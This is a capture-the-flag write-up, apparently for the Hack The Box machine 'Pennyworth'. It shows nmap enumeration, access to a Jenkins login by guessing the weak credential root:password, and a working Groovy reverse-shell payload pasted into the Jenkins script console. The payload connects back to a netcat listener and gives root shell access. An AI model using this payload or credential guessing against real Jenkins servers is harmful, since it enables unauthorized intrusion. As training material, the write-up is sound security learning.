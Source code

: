 - [nmap](#nmap)
- [Web Access](#web-access)
- [Getting Shell](#getting-shell)


# Pennyworth Enumeration

## nmap 

```bash
$ nmap pennyworth.htb 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-27 23:01 JST
Stats: 0:00:17 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 56.40% done; ETC: 23:02 (0:00:13 remaining)
Stats: 0:00:17 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 60.17% done; ETC: 23:02 (0:00:12 remaining)
Nmap scan report for pennyworth.htb (10.129.231.216)
Host is up (0.20s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT     STATE SERVICE
8080/tcp open  http-proxy
```


```bash
nmap -sCV pennyworth.htb 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-27 23:25 JST
Stats: 0:00:02 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 31.62% done; ETC: 23:25 (0:00:06 remaining)
Stats: 0:00:03 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 42.12% done; ETC: 23:25 (0:00:04 remaining)
Nmap scan report for pennyworth.htb (10.129.231.216)
Host is up (0.21s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
8080/tcp open  http    Jetty 9.4.39.v20210325
|_http-title: Site doesn\'t have a title (text/html;charset=utf-8).
|_http-server-header: Jetty(9.4.39.v20210325)
| http-robots.txt: 1 disallowed entry 
|_/

```

Seems like it only has one open HTTP server at `8080`

Key findings: 
- HTTP on port 8080

## Web Access

Accessing `http://pennyworth.htb:8080` ( I added target IP in `/etc/hosts`) led me to a login page for `Jenkins`

![](../Pennyworth/assets/jenkings_login.png)

Jenkins seems to be an [open-soucred CI/CD](https://www.jenkins.io/) ? I could not find any information on default credential for this product. Given the limited intel, I'm assuming the credential is something basic such as
- `root:password`
- `root:admin`
- `admin:admin`

Turns out `root:password` was the correct combination.

Now, Jenkins is a CI/CD tool, so it's likely that there is a way to upload a script to the tool and somehow get shell. A some research led me to [this website](https://blog.pentesteracademy.com/abusing-jenkins-groovy-script-console-to-get-shell-98b951fa64a6), which has detailed steps on getting shell using the script console.

![](../Pennyworth/assets/jenkins_script_console.png)

## Getting Shell

Following the website guide, I have to paste the shell command to the script console while listening to a designated port. For this case, I used port 4444 as a listener..

```bash
$nc -lvnp 4444
```

```groovy
String host="{my localhost port}";
int port=4444;
String cmd="bash";
Process p=new

ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

And this gave me shell acces!! 

```bash
$ nc -lvnp 4444           
listening on [any] 4444 ...
connect to [10.10.14.2] from (UNKNOWN) [10.129.231.216] 51662
ls
bin
boot
cdrom
dev
etc
home
lib
lib32
lib64
libx32
lost+found
media
mnt
opt
proc
root
run
sbin
snap
srv
sys
tmp
usr
var

cd root
ls
flag.txt
snap

cat flag.txt
9cd**
```
